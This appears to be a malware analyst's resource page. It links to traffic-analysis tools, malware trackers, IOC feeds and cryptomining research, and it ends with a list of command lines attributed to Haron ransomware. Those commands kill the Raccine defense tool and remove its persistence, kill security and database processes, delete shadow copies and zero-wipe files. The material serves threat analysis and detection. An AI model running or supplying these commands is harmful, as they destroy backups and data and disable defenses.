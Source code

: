

wireshark columns: https://pastebin.com/LsQzcrTD
wireshark filters: https://pastebin.com/2SE6q5uh
 
Online tools:
Great decoder: https://gchq.github.io/CyberChef/
Office Doc Dropper Analysis: https://malware.sekoia.fr/new
Office Doc Analysis: https://iris-h.malwageddon.com/submit
 
Trackers:
http://tracker.h3x.eu/families
https://ransomwaretracker.abuse.ch/tracker/
http://benkow.cc/passwords.php
http://cybercrime-tracker.net/
https://urlhaus.abuse.ch/
 
IOC feeds:
https://www.hashdd.com/hashdd/twitter-hashddbot/
http://tweettioc.com/
 
Other
Dumping from start to finish:  https://twitter.com/James_inthe_box/status/1187784553940701184
Getting the ursnif goods:  https://twitter.com/James_inthe_box/status/1153778075697631232




How to pro








Resources 




https://thedfirreport.com/2020/11/12/cryptominers-exploiting-weblogic-rce-cve-2020-14882/

https://www.trendmicro.com/en_us/research/21/d/tor-based-botnet-malware-targets-linux-systems-abuses-cloud-management-tools.html

https://blog.talosintelligence.com/2018/08/rocke-champion-of-monero-miners.html

https://blog.talosintelligence.com/2020/01/vivin-cryptomining-campaigns.html

https://blog.trendmicro.com/trendlabs-security-intelligence/fileless-cryptocurrency-miner-ghostminer-weaponizes-wmi-objects-kills-other-cryptocurrency-mining-payloads/

https://github.com/guardicore/labs_campaigns/blob/master/Nansh0u/mining_pools_domains.md












Haron Ransomware Command Lines
https://pastebin.com/u/pandazheng




 "taskkill" /F /IM RaccineSettings.exe 
 "reg" delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Raccine Tray" /F 
 "reg" delete HKCU\Software\Raccine /F 
 "schtasks" /DELETE /TN "Raccine Rules Updater" /F 
 "sc.exe" config Dnscache start= auto 
 "sc.exe" config SQLTELEMETRY start= disabled 
 "sc.exe" config FDResPub start= auto 
 "sc.exe" config SSDPSRV start= auto 
 "sc.exe" config SQLWriter start= disabled 
 "cmd.exe" /c rd /s /q %SYSTEMDRIVE%\\$Recycle.bin 
 "sc.exe" config SQLTELEMETRY$ECWDB2 start= disabled 
 "sc.exe" config upnphost start= auto 
 "sc.exe" config SstpSvc start= disabled 
 "taskkill.exe" /IM mspub.exe /F 
 "taskkill.exe" /IM mydesktopqos.exe /F 
 "taskkill.exe" /IM xfssvccon.exe /F 
 "taskkill.exe" /IM CNTAoSMgr.exe /F 
 "taskkill.exe" /IM sqlbrowser.exe /F 
 "taskkill.exe" /IM mydesktopqos.exe /F 
 "taskkill.exe" /IM visio.exe /F 
 "taskkill.exe" /IM sqlwriter.exe /F 
 "taskkill.exe" /IM mspub.exe /F 
 "taskkill.exe" /IM sqlservr.exe /F 
 "taskkill.exe" /IM mydesktopservice.exe /F 
 "taskkill.exe" /IM synctime.exe /F 
 "taskkill.exe" /IM tbirdconfig.exe /F 
 "taskkill.exe" /IM mydesktopservice.exe /F 
 "taskkill.exe" /IM Ntrtscan.exe /F 
 "taskkill.exe" /IM mysqld.exe /F 
 "taskkill.exe" /IM winword.exe /F 
 "taskkill.exe" /IM isqlplussvc.exe /F 
 "taskkill.exe" /IM thebat.exe /F 
 "taskkill.exe" /IM dbeng50.exe /F 
 "taskkill.exe" /IM onenote.exe /F 
 "taskkill.exe" /IM thebat64.exe /F 
 "taskkill.exe" /IM sqbcoreservice.exe /F 
 "taskkill.exe" /IM steam.exe /F 
 "taskkill.exe" /IM mysqld-nt.exe /F 
 "taskkill.exe" /IM PccNTMon.exe /F 
 "taskkill.exe" /IM encsvc.exe /F 
 "taskkill.exe" /IM ocomm.exe /F 
 "taskkill.exe" /IM firefoxconfig.exe /F 
 "taskkill.exe" /IM wordpad.exe /F 
 "taskkill.exe" /IM msaccess.exe /F 
 "taskkill.exe" /IM agntsvc.exe /F 
 "taskkill.exe" /IM mysqld-opt.exe /F 
 "taskkill.exe" /IM excel.exe /F 
 "taskkill.exe" /IM infopath.exe /F 
 "taskkill.exe" /IM mbamtray.exe /F 
 "taskkill.exe" /IM outlook.exe /F 
 "taskkill.exe" /IM ocautoupds.exe /F 
 "taskkill.exe" /IM zoolz.exe /F 
 "taskkill.exe" /IM tmlisten.exe /F 
 "taskkill.exe" /IM ocssd.exe /F 
 "taskkill.exe" /IM ocssd.exe /F 
 "taskkill.exe" /IM msftesql.exe /F 
 "taskkill.exe" /IM oracle.exe /F 
 "taskkill.exe" /IM oracle.exe /F 
 "taskkill.exe" /IM powerpnt.exe /F 
 "taskkill.exe" /IM sqlagent.exe /F 
 "powershell.exe" & Get-WmiObject Win32_Shadowcopy | ForEach-Object { $_Delete(); } 

     "cmd.exe" /C ping 127.0.0.7 -n 3 > Nul & fsutil file setZeroData offset=0 length=524288 �%s� & Del /f /q �%s� 

